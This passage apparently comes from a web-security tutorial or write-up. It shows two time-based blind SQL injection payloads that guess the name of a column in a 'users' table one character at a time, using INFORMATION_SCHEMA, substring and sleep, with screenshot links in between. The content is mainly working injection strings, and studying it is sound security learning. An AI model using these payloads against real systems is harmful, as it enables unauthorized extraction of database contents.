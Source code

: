 
```sql
' or 1=1 AND substring((SELECT column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name='users' LIMIT 2,1),5,1) = 'w' AND sleep(5)-- -
```

[![sqlinjectblindsleep20](/images/sqlinjectblindsleep20.png){:target="_blank"}](https://raw.githubusercontent.com/NPTG24/nptg24.github.io/master/images/sqlinjectblindsleep20.png)

```sql
' or 1=1 AND substring((SELECT column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name='users' LIMIT 2,1),6,1) = 'o' AND sleep(5)-- -
```
